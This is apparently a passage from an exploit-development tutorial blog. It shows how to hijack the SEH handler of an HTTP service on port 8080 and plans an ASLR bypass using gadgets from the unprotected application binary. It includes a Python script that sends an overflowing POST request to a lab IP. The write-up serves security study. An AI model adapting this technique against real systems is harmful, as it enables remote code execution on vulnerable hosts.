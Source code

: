 ### A Problem Appears

At this point we run into a small problem. When looking at the available modules in mona to find what ones are not SafeSEH enabled, we see that only the application itself is not SafeSEH enabled:


[![](https://1.bp.blogspot.com/-7-K5-VkeyK0/VDRYXvtJLMI/AAAAAAAAAY8/8w1SSw14R3Q/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_018.png)](https://1.bp.blogspot.com/-7-K5-VkeyK0/VDRYXvtJLMI/AAAAAAAAAY8/8w1SSw14R3Q/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_018.png)


Further experimentation reveals the end of the request is being terminated by a \\x0D byte. Because of this we can't even use a 3 byte overwrite and rely on the null terminator to supply the final \\x00 we need to use addresses from the binary itself.

However if we adjust the code and reduce the size of our overwrite, we can actually get the request to be terminated with a null byte. The code that causes this overwrite can be seen below:


> #!/bin/python
> import socket
> 
> inital = "\\x41" \* 790
> nseh = "BBBB"
> seh = "\\xCC\\xCC\\xCC"
> 
> buffer = "POST /" + inital + nseh + seh + " HTTP/1.1\\r\\n"
> buffer += "User-Agent: Wget/1.13.4\\r\\n"
> buffer += "Host: 192.168.99.142:8080\\r\\n"
> buffer += "Accept: \*/\*\\r\\n"
> buffer += "Connection: Keep-Alive\\r\\n"
> buffer += "Content-Type: application/x-www-form-urlencoded\\r\\n"
> buffer += "Content-Length: 4"
> buffer += "\\r\\n\\r\\n"
> buffer += "licenseID=string&content=string&paramsXML=string"
> 
> handle = socket.socket(socket.AF_INET, socket.SOCK\_STREAM)
> handle.connect(("192.168.82.129", 8080))
> handle.send(buffer)
> handle.close()


And as you can see, the request is terminated with a \\x00 byte, resulting in the SEH handler being set to 00CCCCCC:


[![](https://2.bp.blogspot.com/-jnQ7_L6NBXQ/VEGdESAKesI/AAAAAAAAAbc/M0M6O02ffXI/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_059.png)](https://2.bp.blogspot.com/-jnQ7_L6NBXQ/VEGdESAKesI/AAAAAAAAAbc/M0M6O02ffXI/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_059.png)


The next part comes in bypassing ASLR on Windows, which is the first of several protections we will need to bypass to get around EMET (which will be discussed in a seperate blog post).

From the earlier post where we examined that SafeSEH is not enabled for the application binary itself, we can also notice that the application binary itself is the only one not subject to DEP, ASLR, or pretty much any protections at all. As thus, if we can find an address within this binary that holds a POP POP RETN instruction, we can use this in combination with the fact that our requests are now terminated with a null byte (the first byte of the binary's addresses start with a \\x00 so we need to use this trick to be able to use addresses from the binary itself) to create a ASLR friendly SEH overwrite.

